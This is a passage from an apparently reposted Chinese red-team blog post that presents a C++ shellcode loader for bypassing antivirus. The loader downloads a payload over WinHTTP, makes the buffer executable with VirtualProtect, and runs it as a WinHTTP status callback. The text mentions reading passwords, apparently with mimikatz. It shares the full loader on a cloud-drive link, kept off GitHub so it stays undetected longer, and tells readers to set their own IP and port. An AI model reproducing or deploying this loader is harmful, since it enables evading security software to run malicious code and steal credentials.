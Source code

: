     char* pszOutBuffer = new char[dwSize];  
      
    ZeroMemory(pszOutBuffer, dwSize);  
      
    if (!WinHttpReadData(hRequest, pszOutBuffer,dwSize, &dwDownloaded))  
    {  
            printf("Error %u in WinHttpReadData.\n", GetLastError());  
    }  
    else  
    {  
            cout << "[*] Loading" << endl << endl;  
      
            DWORD ppp;  
            VirtualProtect(pszOutBuffer, dwSize, PAGE_EXECUTE_READWRITE, &ppp);  
            HINTERNET hopen = WinHttpOpen(L"User", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);  
            WINHTTP_STATUS_CALLBACK callback = WinHttpSetStatusCallback(hopen, (WINHTTP_STATUS_CALLBACK)pszOutBuffer, WINHTTP_CALLBACK_FLAG_HANDLES, NULL);  
            if (callback == WINHTTP_INVALID_STATUS_CALLBACK) {  
                    cout << "[*] WinHttpSetStatusCallback Error" << endl;  
                    exit(1);  
            }  
      
            cout << "[*] Load Success  " << endl << endl;  
            WinHttpCloseHandle(hopen);  
    }  
    

这里我把杀软关了，所以可以正常读取密码

![](https://gitee.com/fuli009/images/raw/master/public/20221005121500.png)

同理，使用这种方法，应该可以免杀一些exe文件了，这个师傅们可以自己试一下，毕竟mimikatz本身没有做任何处理都能绕过360加载了

## 完整代码

为了师傅们多玩会，暂时就不放github了，这样有效时间久点，我放在了阿里云上

「BypassAv」https://www.aliyundrive.com/s/4fYTr7yXdkU 提取码: l7pg  
点击链接保存，或者复制本段内容，打开「阿里云盘」APP ，无需下载极速在线查看，视频原画倍速播放。

源码中的ip地址，端口这类的师傅们在使用的时候记得更改，都在wmain函数下

本文转载自奇安信，更多内容请点击“阅读原文”

>精彩回顾<  
 ****

[干货 |
红队快速批量打点的利器](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  

[【干货】最全的Tomcat漏洞复现](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484175&idx=1&sn=89771c538a529efd108d4a676c093ea7&chksm=fcdf5f10cba8d606f3c2a635b0bb94da11e8978dba2ac4ed9e4debab7a7401ecc8a0f43777b6&scene=21#wechat_redirect)
